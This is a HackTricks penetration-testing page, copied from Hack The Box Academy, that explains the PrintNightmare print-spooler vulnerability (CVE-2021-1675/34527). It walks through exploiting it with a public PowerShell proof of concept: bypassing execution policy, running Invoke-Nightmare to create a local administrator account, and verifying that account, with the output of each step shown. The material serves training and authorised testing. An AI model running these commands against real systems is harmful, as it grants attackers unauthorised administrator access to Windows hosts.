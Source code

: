 # PrintNightmare

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

**This page was copied from** [**https://academy.hackthebox.com/module/67/section/627**](https://academy.hackthebox.com/module/67/section/627)****

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` is a flaw in [RpcAddPrinterDriver](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22) which is used to allow for remote printing and driver installation. \
This function is intended to give **users with the Windows privilege `SeLoadDriverPrivilege`** the ability to **add drivers** to a remote Print Spooler. This right is typically reserved for users in the built-in Administrators group and Print Operators who may have a legitimate need to install a printer driver on an end user's machine remotely.

The flaw allowed **any authenticated user to add a print driver** to a Windows system without having the privilege mentioned above, allowing an attacker full remote **code execution as SYSTEM** on any affected system. The flaw **affects every supported version of Windows**, and being that the **Print Spooler** runs by default on **Domain Controllers**, Windows 7 and 10, and is often enabled on Windows servers, this presents a massive attack surface, hence "nightmare."

Microsoft initially released a patch that did not fix the issue (and early guidance was to disable the Spooler service, which is not practical for many organizations) but released a second [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) in July of 2021 along with guidance to check that specific registry settings are either set to `0` or not defined.&#x20;

Once this vulnerability was made public, PoC exploits were released rather quickly. **** [**This**](https://github.com/cube0x0/CVE-2021-1675) **version** by [@cube0x0](https://twitter.com/cube0x0) can be used to **execute a malicious DLL** remotely or locally using a modified version of Impacket. The repo also contains a **C# implementation**.\
This **** [**PowerShell implementation**](https://github.com/calebstewart/CVE-2021-1675) **** can be used for quick local privilege escalation. By **default**, this script **adds a new local admin user**, but we can also supply a custom DLL to obtain a reverse shell or similar if adding a local admin user is not in scope.

### **Checking for Spooler Service**

We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a "path does not exist" error.

```
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

### **Adding Local Admin with PrintNightmare PowerShell PoC**

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

```
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Now we can import the PowerShell script and use it to add a new local admin user.

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

### **Confirming New Admin User**

If all went to plan, we will have a new local admin user under our control. Adding a user is "noisy," We would not want to do this on an engagement where stealth is a consideration. Furthermore, we would want to check with our client to ensure account creation is in scope for the assessment.

```
PS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
Password changeable          ?8/?9/?2021 12:12:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
